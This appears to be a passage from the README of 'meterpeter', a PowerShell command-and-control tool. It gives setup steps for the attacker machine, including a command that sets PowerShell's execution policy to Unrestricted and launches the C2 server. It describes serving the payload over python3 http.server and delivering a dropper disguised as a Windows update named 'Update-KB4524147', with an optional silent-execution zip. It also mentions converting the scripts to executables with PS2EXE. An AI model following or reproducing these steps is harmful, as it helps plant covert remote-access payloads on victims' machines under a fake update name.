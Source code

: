 ### ATTACKER MACHINER: [Windows PC]
![frd](https://user-images.githubusercontent.com/23490060/74575907-b76cf200-4f80-11ea-8f44-ddd79fbd812f.png)

<br />

#### Install Python3 (optional)
Install Python3 (http.Server) to deliver payloads under LAN networks ..<br />
```
https://www.python.org/downloads/release/python-381/
```

#### Start C2 Server (Local)
```
cd meterpeter
powershell Set-ExecutionPolicy Unrestricted -Scope CurrentUser
powershell -File meterpeter.ps1
```

**Remark**
- meterpeter.ps1 delivers Dropper/Payload using python3 http.server. IF attacker has python3 installed.<br />
  **'If NOT then the payload (Client) its written in Server Local [Working Directory](https://github.com/r00t-3xp10it/meterpeter/wiki/How-To-Display%7CChange-'Client'-Working-Directory) to be Manualy Deliver'** ..

- Remmnenber to close the http.server terminal after the target have recived the two files (Dropper & Client)<br />
  **'And we have recived the connection in our meterpeter Server { to prevent Server|Client connection errors }'**<br /><br />

#### Deliver Dropper/Payload To Target Machine (manual OR python3)
```
DELIVER 'Update-KB4524147' (.ps1=manual) OR (.zip=automated|silentExec) TO TARGET ..
```

#### Remark:

     IF dropper.bat its executed: Then the Client will use $env:tmp has its working directory ('recomended')..
     IF Attacker decided to manualy execute Client: Then Client remote location (pwd) will be used has working dir .

- **[Quick Jump List](https://github.com/r00t-3xp10it/meterpeter/blob/master/README.md#project)**<br />

---

<br />

### Use PS2EXE to convert ps1 scripts to standalone executables

<br />
